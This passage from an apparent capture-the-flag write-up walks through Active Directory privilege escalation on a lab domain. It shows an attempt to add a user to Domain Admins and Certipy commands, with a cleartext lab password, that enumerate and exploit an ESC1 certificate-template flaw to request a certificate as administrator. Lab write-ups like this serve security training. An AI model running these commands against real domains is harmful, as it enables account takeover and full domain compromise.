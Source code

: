 ```
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-4078382237-1492182817-2568127209-519
AccessMask            : 983551
AuditFlags            : None
AceFlags              : ContainerInherit, Inherited
AceQualifier          : AccessAllowed
```

Tried to add Ryan.Cooper to the Admin's Group via GenericAll:

```
net group "domain admins" Ryan.Cooper /add /domain
```

Unfortunately, this did not work for me.

Based on adPEAS findings, I believe that the DC may be vulnerable to <mark style="color:yellow;">AD Certificate Abuse.</mark>

<mark style="color:yellow;">\[!] Template 'UserAuthentication' has Flag 'ENROLLEE\_SUPPLIES\_SUBJECT'</mark>

Let's use Certipy to attempt this.

#### Certipy

Installation:

```
pip3 install certipy-ad
```

Enumeration:

```
certipy find -u Ryan.Cooper@sequel.htb -p 'NuclearMosquito3' -dc-ip 10.129.203.192
```

Next, open up the text document generated by Certipy and you will see the vulnerability.

{% code overflow="wrap" %}
```
[!] Vulnerabilities
      ESC1: 'SEQUEL.HTB\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```
{% endcode %}

Using the syntax for exploit ESC1 in the repo:

```
certipy req -username Ryan.Cooper@sequel.htb -password NuclearMosquito3 -ca sequel-DC-CA -target ca.sequel.htb -template ESC1-Test -upn administrator@sequel.htb -dns dc.sequel.htb
```
